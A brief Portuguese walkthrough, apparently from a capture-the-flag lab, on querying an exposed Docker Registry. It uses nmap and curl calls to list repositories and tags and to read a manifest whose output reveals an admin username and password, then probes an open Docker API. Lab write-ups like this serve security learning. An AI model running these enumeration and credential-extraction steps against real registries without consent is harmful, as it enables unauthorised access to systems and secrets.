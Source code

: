 
## Interacting with a Docker Registry

#### 1º Passo ver Portas da API e Vesão

```
sudo nmap -sV 10.10.191.47

```

#### 2º Passo Get  repositórios 
```

curl http://jwtdecoder.sstf.site:3000/v2/_catalog -H "Accept: application/json"

```

output:
```jason

{"repositories":["cmnatic/myapp1","dive/challenge","dive/example"]}

```

#### 3º Passo Get Tags
```
curl http://docker-rodeo.thm:7000/v2/securesolutions/webserver/tags/list -H "Accept: application/json"

```

output:
```
{"name":"securesolutions/webserver","tags":["production"]}

```

#### 4º Passo Get Username and Password
```
 curl http://docker-rodeo.thm:7000/v2/securesolutions/webserver/manifests/production -H "Accept: application/json"

```


output:
```
***
\\\"Username: admin\\\\nPassword: production_admin\\\\n\\\
***
```

#### Version
```
curl http://10.10.61.26:2375/version

```